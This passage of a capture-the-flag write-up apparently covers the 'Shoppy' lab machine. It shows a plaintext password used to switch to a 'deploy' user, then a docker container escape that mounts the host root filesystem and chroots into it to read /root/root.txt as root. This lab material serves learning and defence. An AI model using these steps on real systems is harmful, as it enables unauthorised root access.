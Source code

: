 deploy / Deploying@pp!

We change to the deploy user.

```bash
su deploy
Deploying@pp!
```

# Privilege Escalation

After basic enumeration I remembered that in the Matermost chats they were talking about deploying dockers.

```bash
deploy@shoppy:~$ docker ps
CONTAINER ID   IMAGE     COMMAND   CREATED   STATUS    PORTS     NAMES
deploy@shoppy:~$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    d7d3d98c851f   2 years ago   5.53MB
```

No need to mount the whole filesystem so we get command execution with elevated privileges from the docker container.

```bash
deploy@shoppy:~$ docker run --rm -it -v /:/mnt alpine chroot /mnt sh
# cat /root/root.txt
<REDACTED>
```
